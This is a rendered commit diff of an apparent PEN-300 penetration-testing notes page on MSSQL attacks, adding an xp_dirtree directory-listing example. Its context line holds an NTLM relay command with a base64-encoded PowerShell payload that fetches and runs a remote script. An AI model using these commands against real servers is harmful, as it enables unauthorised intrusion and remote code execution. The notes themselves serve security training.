

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -82,6 +82,11 @@ To relay the Net-NTLMv2 hash that you obtained with the xp_dirtree command you c
 ~# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
 kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
 ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
+```
+With `xp_dirtree`, you can also review local directories, here's an example:
+
+```
+> EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
 ```
 
 **PRIVILEGE ESCALATION:**
````
